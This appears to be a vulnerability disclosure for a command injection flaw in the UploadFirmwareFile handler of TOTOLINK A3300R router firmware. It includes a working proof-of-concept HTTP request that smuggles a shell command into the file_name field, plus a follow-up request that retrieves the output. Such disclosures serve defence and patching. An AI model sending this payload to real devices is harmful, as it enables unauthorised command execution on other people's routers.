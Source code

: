 #  A3300R UploadFirmwareFile Command Injection

verdor name: TOTOLINK

model: A3300R AC1200

version: V17.0.0cu.592_B20231030

firmware: https://www.totolink.tw/support_view/A3300R

![image-20241210182241481](1.assets/image-20241210182241481.png)

**Description**

The `file_name` parameter is vulnerable to command injection when processing the `UploadFirmwareFile` request.

**Analyse**

The function `sub_413748` processes the `UploadFirmwareFile` request, retrieves the `file_name` parameter from the request body, and passes it to the `CsteSystem` function without filtering.

![image-20241211113601695](5.assets/image-20241211113601695.png)

![image-20241211113647257](5.assets/image-20241211113647257.png)

**poc**

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.100.2
Content-Length: 108
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.100.2
Referer: http://192.168.100.2/login.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"file_name": "1|id>/web/5.txt","content_length":"100","topicurl":"UploadFirmwareFile","token":"1234"}
```

![image-20241211112906096](5.assets/image-20241211112906096.png)

```
GET /5.txt HTTP/1.1
Host: 192.168.100.2
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

![image-20241211113006224](5.assets/image-20241211113006224.png)
